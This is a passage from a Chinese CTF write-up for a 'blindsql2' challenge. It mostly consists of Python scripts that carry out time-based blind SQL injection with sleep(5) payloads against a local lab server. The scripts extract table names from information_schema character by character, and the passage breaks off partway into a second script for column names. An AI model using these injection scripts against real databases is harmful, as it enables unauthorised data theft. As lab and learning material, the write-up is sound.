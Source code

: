 ```python
            result +=c
            print(result)
            break
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732609939399-4f1e807d-70e4-4c5b-ac75-58e01f87f939.png)

得到flag

## blindsql2
![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732624771900-ad56ac61-b0d1-4707-97a4-90edc36955cb.png)

由于查询数据不被放出来所以没办法利用布尔盲注 所以这里使用延时盲注

```python
import requests,time,string

url= 'http://127.0.0.1:57324/'

result= ''

for i in range(1,100):
    print('尝试次数',i)

    for c in  string.ascii_letters + string.digits + ' ,_-{}':
        time.sleep(0.01)
        print('尝试的字符', c)

        tables=f'(Select(group_concat(table_name))from(infOrmation_schema.tables)where((table_schema)like(database())))'

        char=f'(ord(mid({tables},{i},1)))'

        b=f'(({char})in({ord(c)}))'

        p=f'Alice\'and(if({b},sleep(5),0))#'
        res=requests.get(url, params={'student_name': p})

        if  res.elapsed.total_seconds()>5:
            print('正确',c)
            result +=c
            print(result)
            break
```

爆出结果

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732627388838-350620f1-40b8-4714-9030-1b4c87e2b5ac.png)

接着爆表中的字段名

```python
import requests,time,string

url= 'http://127.0.0.1:57324/'

result= ''

for i in range(1,100):
    print('尝试次数',i)

    for c in  string.ascii_letters + string.digits + ' ,_-{}':
        time.sleep(0.01)
        print('尝试的字符', c)

```